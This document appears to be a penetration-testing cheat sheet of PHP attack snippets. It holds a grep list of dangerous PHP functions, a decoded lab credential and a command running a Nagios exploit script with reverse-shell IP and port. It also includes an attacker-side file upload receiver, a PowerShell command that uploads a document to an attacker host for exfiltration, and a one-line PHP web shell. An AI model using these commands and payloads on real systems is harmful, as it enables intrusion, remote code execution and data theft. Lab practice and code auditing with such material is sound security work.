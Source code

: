 ## PHP Interesting Function List

```
find . -name "*.php" | xargs grep "<function-name>"

    exec
    shell_exec
    system
    passthru
    pcntl_exec
    popen
    proc_open
    eval
    preg_replace (with /e modifier)
    create_function
    file_get_contents
    file_put_contents
    readfile
    include
    require
    require_once
    include_once

```

--> url decode:

```
php -r 'echo urldecode("srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb\n");'
```

--> Run php script with arguments:

```
php 47299.php --host=192.168.245.136 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.49.245 --reverseport=13000
```


## Upload Server (Windows Exfil)

1. Get Apache running on kali with php support

2. Save to /var/www/

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

3. Upload!!!

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

```bash
curl -F file=@clip.txt http://127.0.0.1/upload.php
```

## ----- 

# PHP execute system command (Reverse Shell)
```
<?php system($_REQUEST['COMMAND']); ?>
```